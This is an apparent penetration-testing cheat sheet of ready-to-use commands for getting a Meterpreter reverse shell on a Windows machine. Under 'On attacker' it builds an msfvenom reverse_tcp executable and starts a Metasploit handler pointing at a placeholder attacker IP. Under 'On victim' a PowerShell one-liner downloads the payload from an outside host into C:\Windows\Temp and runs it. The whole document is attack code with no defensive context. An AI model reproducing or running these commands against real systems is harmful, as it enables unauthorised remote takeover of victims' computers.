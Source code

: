 # On attacker

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > <FILENAME>`

`msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <ATTACKER_IP>; set LPORT <ATTACKER_PORT>; exploit'`


# On victim

`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.100.5:80/<FILENAME>', 'C:\Windows\Temp\<FILENAME>'); Start-Process 'C:\Windows\Temp\<FILENAME>'"`
